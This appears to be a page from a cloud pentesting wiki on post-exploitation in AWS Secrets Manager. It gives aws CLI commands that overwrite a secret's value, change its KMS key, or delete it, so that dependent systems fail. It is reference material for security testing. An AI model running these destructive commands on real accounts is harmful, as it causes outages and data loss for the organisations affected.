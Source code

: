 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Note that previous values are also stored, so it's easy to just go back to the previous value.

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

{{#include ../../../banners/hacktricks-training.md}}




